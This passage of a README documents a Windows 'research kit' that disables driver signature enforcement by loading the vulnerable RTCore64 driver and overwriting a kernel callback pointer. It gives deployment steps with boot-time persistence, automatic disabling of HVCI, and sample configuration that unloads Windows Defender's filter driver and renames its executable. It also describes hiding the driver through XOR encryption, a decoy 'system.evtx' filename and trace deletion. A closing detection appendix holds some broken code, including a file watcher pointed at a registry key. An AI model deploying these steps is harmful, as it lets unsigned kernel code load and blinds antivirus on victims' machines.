typedef NTSTATUS (*PCI_VALIDATE_IMAGE_HEADER)(
    PVOID ImageBase,
    ULONG ImageSize,
    ULONG Flags,
    PVOID ImageInfo
);

typedef struct _CI_CALLBACKS {
    PVOID Reserved1;
    PVOID Reserved2;
    PVOID Reserved3;
    PVOID Reserved4;
    PCI_VALIDATE_IMAGE_HEADER CiValidateImageHeader;  // +0x20 offset
    PVOID Reserved5;
    // ... more callbacks ...
} CI_CALLBACKS, *PCI_CALLBACKS;

// Global variable in ntoskrnl.exe .data section
CI_CALLBACKS g_CiCallbacks;  // @ ntBase + 0xF04740

// Original validation function
NTSTATUS CiValidateImageHeader(
    PVOID ImageBase,
    ULONG ImageSize,
    ULONG Flags,
    PVOID ImageInfo
) {
    // Check digital signature
    // Verify certificate chain
    // Validate PE headers
    // Check revocation lists
    // ...
    return signature_valid ? STATUS_SUCCESS : STATUS_INVALID_IMAGE_HASH;
}

// Replacement function (benign kernel API)
NTSTATUS ZwFlushInstructionCache(
    HANDLE ProcessHandle,   // Ignored
    PVOID BaseAddress,      // Ignored
    SIZE_T Length           // Ignored
) {
    // Flush CPU instruction cache (no-op on x64 with strong memory ordering)
    return STATUS_SUCCESS;  // ALWAYS succeeds
}
```

**Detection Bypass:**

Traditional DSE bypass detection looks for:
1. **`g_CiEnabled` flag modification** - This technique doesn't touch it
2. **`g_CiOptions` modification** - This technique doesn't touch it
3. **Kernel code patching** - This technique only modifies data (function pointer)

What defenders should monitor:
1. **`SeCiCallbacks` structure integrity** - callback pointer validation
2. **Suspicious driver loads** - unsigned drivers appearing after boot
3. **Vulnerable driver presence** - detect RTCore64/other known vulnerable drivers
4. **IOCTL operations** - monitor 0x80002048/0x8000204C to suspicious devices

---

## 🚀 Quick Start
Prerequisites
Required:

Windows 10/11 x64 (tested on Windows 11 25H2 Build 26200)
Administrator privileges

Not Required:

Test Signing mode
Developer mode
Secure Boot disable (works with Secure Boot enabled)
Separate vulnerable driver file (embedded in application)

Method A: Boot-Time Deployment (Persistent)
Step 1: Deploy via PowerShell Script
powershell# Extract KernelResearchKit.7z (password: github.com)
# Navigate to extracted directory

# Right-click implementer.bat → Run as Administrator
# OR manually:
powershell -ExecutionPolicy Bypass -File implementer.ps1
```

**Interactive Menu:**
```
1. Deploy BootBypass (install to boot sequence)
2. Remove BootBypass (uninstall)
3. Exit
Deployment Actions:

Copies BootBypass.exe → C:\Windows\System32\
Copies drivers.ini → C:\Windows\
Creates registry backup: BootExecute_backup_YYYYMMDD_HHMMSS.reg
Adds BootExecute entry: HKLM\...\Session Manager\BootExecute = "BootBypass"

Note: RTCore64.sys is NOT copied - it's embedded in BootBypass.exe and extracted at runtime.
Step 2: Configure Operations
Edit C:\Windows\drivers.ini with desired operations:
ini[Config]
Execute=YES              ; Master switch (NO=disable all operations)
RestoreHVCI=NO          ; Re-enable Memory Integrity after operations

# Kernel offsets (Windows 11 25H2 Build 26200)
# Update these after Windows updates using drvloader.exe Option 2
Offset_SeCiCallbacks=0xF04740
Offset_Callback=0x20
Offset_SafeFunction=0x69C1B0

[Driver1]
Action=LOAD
AutoPatch=YES           ; Full DSE bypass cycle per driver
ServiceName=mydriver
ImagePath=\SystemRoot\System32\drivers\mydriver.sys
Type=KERNEL
StartType=DEMAND
CheckIfLoaded=YES
Step 3: Reboot
cmdshutdown /r /t 0
Verification After Reboot:
powershell# Check drivers.ini modification time (updated by BootBypass)
Get-ItemProperty C:\Windows\drivers.ini | Select-Object LastWriteTime

# Check if target driver loaded
sc query mydriver

# Check for DSE state (should be clean - no traces)
Get-Content C:\Windows\drivers.ini | Select-String "DSE_STATE"  # Should return nothing

Method B: Runtime Manipulation (Interactive)
Step 1: Launch drvloader
cmd# Run as Administrator
drvloader.exe
```

**Step 2: Handle HVCI Detection**

If Memory Integrity (HVCI) is enabled, drvloader will display:
```
[!] WARNING: Memory Integrity (HVCI) is enabled!
[!] DSE bypass will succeed, but loading unsigned drivers will cause BSOD.
[!] Do you want to disable Memory Integrity and reboot? (Y/N):
```

Choose Y to automatically disable and reboot, or N to continue (testing only - don't load drivers).

**Step 3: Select Operation**

**Option 1: Patch DSE** (Disable driver signature enforcement)
```
Process:
1. Extract vulnerable driver from embedded resources (XOR-decrypt)
2. Write decrypted driver to temporary location (C:\Windows\system.evtx)
3. Decode driver name via MmGetPoolDiagnosticString() assembly function
4. Install and start driver service (Services\RTCore64)
5. Locate ntoskrnl.exe base address via EnumDeviceDrivers
6. Calculate SeCiCallbacks + 0x20 target address
7. Read current callback (should be CiValidateImageHeader)
8. Save original callback to drivers.ini [DSE_STATE] section
9. Write ZwFlushInstructionCache address via IOCTL 0x8000204C
10. Verify patch successful
11. Unload driver and delete all files/registry keys

Result: Unsigned drivers can now be loaded system-wide
```

**Option 2: Show Offsets** (Update drivers.ini with current kernel offsets)
```
Process:
1. Check for mini-PDB cache (C:\Windows\symbols\ntkrnlmp.pdb\{GUID}\ntkrnlmp.mpdb)
2. If cache hit: Display cached offsets instantly
3. If cache miss:
   a. Download ntoskrnl.pdb from Microsoft Symbol Server
   b. Parse PDB using DbgHelp API (no driver needed!)
   c. Extract SeCiCallbacks and ZwFlushInstructionCache offsets
   d. Create mini-PDB for future offline use (32 bytes)
4. Update C:\Windows\drivers.ini [Config] section
5. Save to registry: HKCU\Software\drvloader\History\{timestamp}
6. Display offset information

Output Example:
  Offset_SeCiCallbacks=0xF04740    ; g_CiCallbacks table base
  Offset_Callback=0x20              ; CiValidateImageHeader pointer offset
  Offset_SafeFunction=0x69C1B0      ; ZwFlushInstructionCache address
```

**Important:** These offsets are **constant for a specific ntoskrnl.exe build**. After Windows update, run Option 2 again to regenerate.

**Option 3: Restore DSE** (Re-enable driver signature enforcement)
```
Process:
1. Load saved state from drivers.ini [DSE_STATE] section
2. Verify original callback address exists
3. Extract and load vulnerable driver (same as Option 1 steps 1-4)
4. Read current callback (should be ZwFlushInstructionCache)
5. Write original callback address (restore CiValidateImageHeader)
6. Verify restoration successful
7. Delete [DSE_STATE] section from drivers.ini
8. Unload driver and cleanup

Result: Driver signature enforcement restored

📋 Configuration: drivers.ini
Complete configuration file with all supported operations:
ini; ============================================================================
; Global Configuration
; ============================================================================
[Config]
Execute=YES                       ; Master switch: YES=run, NO=exit immediately
RestoreHVCI=NO                   ; Re-enable Memory Integrity after operations

; Kernel offsets (Windows 11 25H2 Build 26200 - update after Windows updates!)
; Use drvloader.exe Option 2 to auto-detect and update these values
Offset_SeCiCallbacks=0xF04740    ; g_CiCallbacks table base (constant per build)
Offset_Callback=0x20              ; CiValidateImageHeader pointer offset
Offset_SafeFunction=0x69C1B0      ; ZwFlushInstructionCache address

; Vulnerable driver configuration (hardcoded in driver, DO NOT CHANGE)
; These values are used by both BootBypass and drvloader
; Driver name is decoded at runtime via MmGetPoolDiagnosticString()
DriverDevice=\Device\RTCore64     ; Device path (matches driver's device creation)
IoControlCode_Read=0x80002048    ; RTCore64 read IOCTL (hardcoded in driver)
IoControlCode_Write=0x8000204C   ; RTCore64 write IOCTL (hardcoded in driver)

; ============================================================================
; Driver Operations
; ============================================================================
[Driver1]
Action=LOAD
AutoPatch=YES                     ; Automatic: Extract→Load→Patch→Load target→Restore→Cleanup
ServiceName=omnidriver
DisplayName=OmniDriver Research Tool
ImagePath=\SystemRoot\System32\drivers\omnidriver.sys
Type=KERNEL                       ; KERNEL or FILE_SYSTEM
StartType=DEMAND                  ; BOOT(0), SYSTEM(1), AUTO(2), DEMAND(3), DISABLED(4)
CheckIfLoaded=YES                ; Skip if already loaded

[Driver2]
Action=UNLOAD
ServiceName=WdFilter             ; Windows Defender filter driver
DisplayName=Windows Defender Mini-Filter

; ============================================================================
; File/Directory Operations
; ============================================================================
[Rename1]
Action=RENAME
DisplayName=Disable Windows Defender Executable
SourcePath=\??\C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25090.3009-0\MsMpEng.exe
TargetPath=\??\C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25090.3009-0\MsMpEng_.exe
ReplaceIfExists=NO               ; YES=overwrite, NO=fail if exists

[Delete1]
Action=DELETE
DisplayName=Remove Temporary Directory
DeletePath=\??\C:\Windows\Temp
RecursiveDelete=YES              ; YES=force delete tree, NO=fail if not empty
```

**Path Format (NT Native):**
```
Local drives:    \??\C:\Path\To\File
System paths:    \SystemRoot\System32\file.sys
Device paths:    \Device\HarddiskVolume1\Path
```

**Important Notes:**

1. **Driver Configuration Section:** The `DriverDevice`, `IoControlCode_Read`, and `IoControlCode_Write` values are **hardcoded in RTCore64.sys** and must match exactly. Do not change these values.

2. **Driver Name Decoding:** The actual vulnerable driver name ("RTCore64") is never stored in drivers.ini or anywhere else as plaintext. It's decoded at runtime via the `MmGetPoolDiagnosticString()` assembly function.

3. **Offset Updates:** After Windows updates, kernel offsets change. Run `drvloader.exe` Option 2 to automatically detect and update offsets in drivers.ini. Same Windows build = same offsets (deterministic).

4. **AutoPatch Cycle:** When `AutoPatch=YES`, the framework automatically:
   - Extracts vulnerable driver from resources (XOR-decrypted)
   - Loads driver with assembly-decoded name
   - Patches DSE callback
   - Loads your unsigned driver
   - Restores original callback
   - Unloads and deletes all traces

5. **State Persistence:** If system crashes during DSE patch, the `[DSE_STATE]` section is automatically created to store the original callback. On next boot, BootBypass detects this and restores the callback before any operations.

---

## 🛡️ Safety Features

**1. Dual-Layer Anti-Loop Protection**
- Primary: `RemoveThemesDependency()` + `RemoveRebootGuardianService()` on every boot
- Failsafe: RebootGuardian self-destruct service via Windows SCM
- Prevents infinite reboot loops if HVCI causes BSOD during unsigned driver load

**2. State Persistence & Restoration**
- Original callback saved to `[DSE_STATE]` section before patching
- Auto-restored on next run if system crashes during patch
- Idempotent operations (multiple save/restore cycles safe)
- State validation before every operation

**3. Registry Backups**
- Automatic `.reg` file creation before modifications
- Timestamped: `BootExecute_backup_YYYYMMDD_HHMMSS.reg`
- Double-click to restore original registry state
- Backup location: current directory of implementer.ps1

**4. Exception Handling**
- All kernel memory operations wrapped in `__try/__except`
- Safe recovery from invalid addresses, page faults, access violations
- No BSOD from framework operations (driver stability guaranteed)
- Error messages displayed instead of crashes

**5. Validation Checks**
- Current DSE state verification before patching
- State file consistency validation
- HVCI detection with automatic handling
- Callback address sanity checks (kernel range validation)

**6. Automatic Cleanup**
- All temporary files deleted after operations (`system.evtx`)
- Registry keys removed (Services\RTCore64)
- No persistent traces left on system
- Cleanup guaranteed even if operations fail midway

**7. Resource Embedding**
- Vulnerable driver never exists as standalone file on disk (unless temporarily extracted)
- XOR encryption changes binary signature (hash-based detection evasion)
- Temporary extraction to innocuous filename (`system.evtx` mimics Windows logs)
- Automatic deletion prevents forensic recovery

---

## ⚠️ Limitations

**Cannot Bypass:**
- Intel SGX encrypted enclaves (hardware-protected memory)
- Virtualization-based isolation (requires hypervisor compromise)
- Hardware-enforced security features (TPM, Secure Boot at BIOS level)

**PatchGuard Compatibility:**
- ✅ Safe: Modifies data (function pointer), not kernel code
- ✅ Stable: `SeCiCallbacks` table not PatchGuard-protected
- ❌ Limitation: Cannot patch kernel `.text` section directly

**HVCI/Memory Integrity:**
- Hypervisor prevents kernel code page modifications when enabled
- Framework detects and disables HVCI automatically (requires reboot)
- After operations, cosmetically re-enables HVCI flag (requires full reboot to physically activate)
- First boot with HVCI: detection → disable → schedule reboot
- Second boot without HVCI: normal operations
- Third boot (optional): HVCI flag restored cosmetically

**Build-Specific Offsets:**
- Kernel offsets are **constant per Windows build** but change between builds
- After Windows Update: must run `drvloader.exe` Option 2 to regenerate offsets
- Incorrect offsets cause immediate crash when writing to random memory
- No automatic offset detection during boot (must be pre-configured)

**Static Analysis Evasion:**
- ✅ String obfuscation defeats basic string scanning
- ✅ XOR encryption changes resource hash
- ❌ Runtime behavior still detectable (device creation, IOCTL operations)
- ❌ Behavioral analysis detects vulnerable driver loading pattern

**Detection by Defenders:**
- Vulnerable driver hash (original RTCore64.sys) is publicly known
- Device name `\Device\RTCore64` is IoC
- IOCTL codes 0x80002048/0x8000204C are fingerprints
- Behavioral detection can identify DSE bypass pattern
- EDR/kernel-mode security products may block operations

---

## 🎓 Educational Use Cases

**Security Research:**
- Analyze anti-cheat kernel drivers behavior
- Study Windows Code Integrity architecture
- Develop defensive techniques against DSE bypass
- Test EDR/AV kernel-mode detection capabilities
- Research PatchGuard compatibility boundaries

**Kernel Development:**
- Test unsigned drivers during development (no test signing needed)
- Debug driver loading mechanisms
- Analyze kernel callback chains
- Prototype kernel-mode security tools without code signing certificate

**Forensics:**
- Extract memory from protected processes
- Analyze security software behavior
- Incident response toolkit
- Memory forensics research

**Vulnerability Research:**
- Study vulnerable signed drivers
- Research kernel memory protections
- Analyze Windows boot sequence security
- Test kernel exploit mitigations

---

## ⚖️ Legal Disclaimer

**FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**

This framework demonstrates advanced Windows kernel security concepts. Users must:
- Obtain explicit authorization before testing on systems they don't own
- Comply with local computer crime statutes and anti-circumvention laws (DMCA, CFAA)
- Respect software license agreements and terms of service
- Use only in isolated lab environments or authorized penetration testing
- Report discovered vulnerabilities responsibly to affected vendors

**Prohibited Uses:**
- Circumventing software licensing or copy protection
- Cheating in online games or competitions
- Unauthorized access to computer systems
- Malware development or distribution
- Any illegal or unethical activities
- Bypassing security mechanisms for commercial gain without authorization

**Liability:** The author provides this framework "AS IS" without warranties of any kind, express or implied. The author is not responsible for misuse by third parties. Users assume all legal, ethical, and technical responsibility for their actions.

**Responsible Disclosure:** If discovering vulnerabilities using this framework, contact affected vendors (e.g., Microsoft MSRC: secure@microsoft.com) before public disclosure. Follow coordinated vulnerability disclosure (CVD) best practices.

**Academic Research:** If using this framework in academic research, properly cite the project and acknowledge the ethical considerations in your publication.

---

## 📞 Contact & Contributing

**Author:** Marek Wesołowski  
**Email:** marek@wesolowski.eu.org  
**Website:** https://kvc.pl  
**WhatsApp:** +48 607 440 283  

**Repository:** https://github.com/wesmar/KernelResearchKit  
**Issues:** https://github.com/wesmar/KernelResearchKit/issues

**Contributions Welcome:**
- Additional vulnerable driver configurations (AsIO, gdrv, etc.)
- Kernel version compatibility (new offset sets for different Windows builds)
- Alternative safe callback functions (beyond ZwFlushInstructionCache)
- Documentation improvements and translations
- Detection evasion techniques (ethical research only)
- Code quality improvements (bug fixes, refactoring)

**Contributing Guidelines:**
1. Fork the repository
2. Create feature branch (`git checkout -b feature/NewVulnDriver`)
3. Commit changes with clear messages
4. Push to branch (`git push origin feature/NewVulnDriver`)
5. Open Pull Request with detailed description

**Bug Reports:**
- Include Windows version, build number, and system configuration
- Provide drivers.ini configuration (redact sensitive paths)
- Describe expected vs. actual behavior
- Include any error messages or crash dumps

---

## 📊 Technical Specifications
```
Lines of Code:
  - BootBypass (native):    ~2,500 (C + Assembly)
  - drvloader (C++):        ~1,800
  - MmPoolTelemetry.asm:    ~150 (string decoder)
  - Total:                  ~4,450

Binary Sizes:
  - BootBypass.exe:         ~45 KB (with embedded driver)
  - drvloader.exe:          ~120 KB (with GUI resources)
  - RTCore64.sys:           14,024 bytes (embedded, XOR-encrypted)

Supported Windows:
  - Windows 11 (25H2)      ✅ Tested (Build 26200)
  - Windows 11 (24H2)      ⚠️  Likely compatible (offset adjustment required)
  - Windows 10 (22H2)      ⚠️  Likely compatible (offset adjustment required)
  - Windows 10 (1809+)     ⚠️  Unverified (significant offset changes)

Architecture: x64 only (x86 not supported)

Compiler: Visual Studio 2022 (v143 toolset)
Build Mode: Release (optimized for size)

Tested Configuration:
  - OS: Windows 11 25H2 Build 26200.8460
  - CPU: Intel Core i7-12700K (Alder Lake)
  - RAM: 32 GB DDR5
  - Secure Boot: Enabled (works)
  - HVCI: Initially Enabled → Automatically disabled
  - Antivirus: Windows Defender (disabled via rename operations)
```

**Performance Metrics:**
```
BootBypass Execution Time:
  - Cold boot (HVCI enabled):    ~8 seconds (detection + disable + schedule reboot)
  - Second boot (HVCI disabled): ~3 seconds (DSE patch + driver load + cleanup)
  - Third boot (normal):         ~0.5 seconds (cleanup verification only)

drvloader Execution Time:
  - Option 1 (Patch DSE):        ~2 seconds (extract + load + patch + unload)
  - Option 2 (Show Offsets):     ~15 seconds (PDB download + parse) OR ~0.1 seconds (cache hit)
  - Option 3 (Restore DSE):      ~2 seconds (load + restore + unload)

Memory Footprint:
  - BootBypass.exe:              ~1.5 MB working set
  - drvloader.exe:               ~8 MB working set (GUI + DbgHelp.dll)
  - RTCore64.sys:                ~64 KB kernel non-paged pool

📄 License
MIT License - Copyright (c) 2025 Marek Wesołowski
Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, subject to the following conditions:
The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

## 🔍 Appendix: Detection & Defense

**For Security Researchers & Defenders:**

### Detection Strategies

**1. Static Analysis (Limited Effectiveness):**
```powershell
# String scanning (ineffective due to assembly obfuscation)
strings BootBypass.exe | Select-String "RTCore64"  # Returns nothing

# Hash-based detection (ineffective - XOR changes resource hash)
Get-FileHash BootBypass.exe -Algorithm SHA256
# Hash will NOT match original RTCore64.sys hash

# PE resource analysis (may detect XOR-encrypted resource)
# Look for resources with high entropy (encrypted data)
```

**2. Behavioral Detection (Effective):**
```powershell
# Monitor BootExecute registry modifications
Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name BootExecute |
    Where-Object { $_.BootExecute -contains "BootBypass" }

# Monitor kernel driver loads during boot
Get-WinEvent -FilterHashtable @{
    LogName='System';
    ProviderName='Microsoft-Windows-Kernel-PnP';
    ID=219  # Driver load event
} | Where-Object { $_.Message -match "RTCore64" }

# Monitor device creation
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Kernel-PnP/Device Configuration';
    ID=400
} | Where-Object { $_.Message -match '\\Device\\RTCore64' }

# Monitor suspicious file creations
# Alert on: C:\Windows\system.evtx creation (non-standard event log location)
```

**3. Kernel-Mode Detection (Most Effective):**
```c
// ETW provider for SeCiCallbacks monitoring
// Alert when callback pointer changes

PVOID g_OriginalCallback = NULL;

NTSTATUS MonitorDSECallback(VOID) {
    // Read current callback
    PVOID currentCallback = *(PVOID*)((ULONG_PTR)ntBase + 0xF04740 + 0x20);
    
    // First read - establish baseline
    if (g_OriginalCallback == NULL) {
        g_OriginalCallback = currentCallback;
        return STATUS_SUCCESS;
    }
    
    // Detect callback modification
    if (currentCallback != g_OriginalCallback) {
        // ALERT: DSE bypass detected!
        // Expected: CiValidateImageHeader
        // Actual: ZwFlushInstructionCache (or other function)
        
        LogSecurityEvent("DSE_BYPASS_DETECTED", currentCallback);
        
        // Optional: Restore original callback immediately
        *(PVOID*)((ULONG_PTR)ntBase + 0xF04740 + 0x20) = g_OriginalCallback;
        
        return STATUS_SECURITY_VIOLATION;
    }
    
    return STATUS_SUCCESS;
}
```

**4. IOCTL Monitoring:**
```c
// IRP_MJ_DEVICE_CONTROL hook for vulnerable driver detection
// Monitor for RTCore64-specific IOCTLs

NTSTATUS DeviceControlHook(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION irpSp = IoGetCurrentIrpStackLocation(Irp);
    ULONG ioctl = irpSp->Parameters.DeviceIoControl.IoControlCode;
    
    // Detect RTCore64 IOCTLs
    if (ioctl == 0x80002048 || ioctl == 0x8000204C) {
        // ALERT: Vulnerable driver IOCTL detected!
        UNICODE_STRING deviceName;
        RtlInitUnicodeString(&deviceName, L"\\Device\\RTCore64");
        
        if (RtlEqualUnicodeString(&DeviceObject->Name, &deviceName, TRUE)) {
            LogSecurityEvent("VULNERABLE_DRIVER_IOCTL", ioctl);
            
            // Optional: Block operation
            Irp->IoStatus.Status = STATUS_ACCESS_DENIED;
            IoCompleteRequest(Irp, IO_NO_INCREMENT);
            return STATUS_ACCESS_DENIED;
        }
    }
    
    // Call original handler
    return OriginalDeviceControl(DeviceObject, Irp);
}
```

### Mitigation Strategies

**1. Application Control (WDAC/AppLocker):**
```xml
<!-- Windows Defender Application Control Policy -->
<!-- Block known vulnerable drivers by hash -->
<FileRules>
    <Deny ID="ID_DENY_RTCORE64" FriendlyName="Block RTCore64" 
          Hash="[RTCore64.sys SHA256 hash]" />
</FileRules>
```

**2. Attack Surface Reduction:**
```powershell
# Block vulnerable driver loading via registry
New-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config" -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config" `
    -Name "VulnerableDriverBlocklistEnable" -Value 1 -PropertyType DWORD

# Microsoft's recommended vulnerable driver blocklist
# https://aka.ms/VulnerableDriverBlocklist
```

**3. Enable Memory Integrity (HVCI):**
```powershell
# Force HVCI enabled (prevents DSE bypass from loading unsigned drivers)
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" `
    -Name "Enabled" -Value 1

# Prevent automated disable
# Set registry permissions to SYSTEM only (remove Administrators write access)
$acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard"
# ... ACL modifications ...
```

**4. Boot Integrity Monitoring:**
```powershell
# Monitor BootExecute modifications
$watcher = New-Object System.IO.FileSystemWatcher
$watcher.Path = "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager"
$watcher.Filter = "BootExecute"
$watcher.EnableRaisingEvents = $true

Register-ObjectEvent $watcher "Changed" -Action {
    # Alert on BootExecute modifications
    Send-MailMessage -To "security@company.com" `
        -Subject "ALERT: BootExecute Modified" `
        -Body "Potential boot-time persistence detected"
}
```

---

**⚠️ USE RESPONSIBLY • EDUCATIONAL PURPOSE ONLY • AUTHORIZED TESTING ONLY ⚠️**

**Version:** 1.0.0 | **Last Updated:** December 2025 | **Status:** Active Development